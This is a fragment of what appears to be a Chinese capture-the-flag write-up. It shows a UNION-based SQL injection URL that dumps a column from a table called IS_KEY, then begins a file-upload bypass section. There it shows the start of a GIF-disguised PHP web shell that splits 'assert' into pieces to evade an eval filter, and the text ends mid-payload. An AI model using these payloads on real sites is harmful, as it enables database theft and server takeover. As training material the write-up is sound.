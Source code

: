dump信息`index.php?uuid=1' union select 1,group_concat(haha),3,4,5,6 from IS_KEY -%23-%20`
![upload successful](./images/pasted-798.png)

# 34072 文件上传突破

先传一个jpg的木马，发现jpg都不能上传

![upload successful](./images/pasted-799.png)
这一查看一下jpg的内容，经过fuzz测试发现过滤了eval
```
GIF89a
<?php 
$a='ass';
$b='ert';
```